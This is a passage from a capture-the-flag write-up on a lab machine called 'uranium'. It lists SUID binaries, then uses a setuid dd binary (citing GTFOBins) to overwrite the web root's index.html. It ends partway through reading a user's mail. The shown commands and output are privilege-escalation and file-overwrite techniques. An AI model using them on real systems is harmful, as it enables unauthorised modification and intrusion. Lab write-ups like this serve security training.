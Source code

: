 After that I searched for `SUID` binaries, and I found a very interesting one...

```bash
-perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 113528 Feb  2  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 149080 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 26696 Sep 16  2020 /bin/umount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 43088 Sep 16  2020 /bin/mount
-rwsr-x--- 1 web kral4 76000 Apr 23 10:52 /bin/dd
```
`dd` It's used to write data to files, sooo....

We can use it to modify the index. Here it's the [GTFOBins page to exploit it](https://gtfobins.github.io/gtfobins/dd/).

```bash
kral4@uranium:/home/kral4$ LFILE=/var/www/html/index.html 
kral4@uranium:/home/kral4$ echo "Dumped by lanfran02" | /bin/dd of=$LFILE
0+1 records in
0+1 records out
20 bytes copied, 0.000148921 s, 134 kB/s
kral4@uranium:/home/kral4$ cat /var/mail/kral4                           
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id C7533401C2
	for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

```